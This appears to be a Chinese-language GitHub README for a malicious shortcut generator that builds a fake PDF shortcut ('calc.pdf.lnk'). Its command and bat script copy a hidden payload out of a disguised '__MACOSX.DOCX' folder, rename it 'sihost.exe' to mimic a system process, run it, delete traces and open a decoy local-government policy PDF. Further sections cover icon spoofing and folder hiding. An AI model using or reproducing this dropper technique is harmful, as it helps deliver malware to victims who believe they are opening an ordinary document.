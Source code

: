 
### 1.快捷方式生成
参考 www.x86matthew.com 的项目，原文链接已删除。 
2023年7月份改的代码，主要配合bat/vbs脚本调用，图标替换通过010editor进行修改，之前本想将其写成个 操作友好的工具，但由于部分原因没弄成

```
linkgen.exe calc.pdf.lnk "test" "xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk" & del /F /A /Q "%cd%__MACOSX.DOCX\wct366A.tmp" & copy "%cd%__MACOSX.DOCX\天桥区电子商务产业发展扶持奖励政策.pdf" "%cd%\天桥区电子商务产业发展扶持奖励政策.pdf" & start "" "%cd%\天桥区电子商务产业发展扶持奖励政策.pdf" & del "%cd%__MACOSX.DOCX\天桥区电子商务产业发展扶持奖励政策.pdf" "
```

### 2.图标处理
参考 https://www.cnblogs.com/f-carey/p/16542156.html#tid-sywapk 
<img width="910" alt="image" src="https://github.com/user-attachments/assets/1372ea03-f5ee-4e01-ba5b-d83d7ab8424d">

### 3.bat脚本
```
xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk"  &  del /F /A /Q %cd%__MACOSX.DOCX\calc.tmp
```

### 4.文件夹隐藏
打开隐藏后效果如下，正常情况默认隐藏 .__MACOSX 文件夹
<img width="904" alt="image" src="https://github.com/user-attachments/assets/443b9b7a-20cf-413e-adc6-2df3ab6ee7dd">
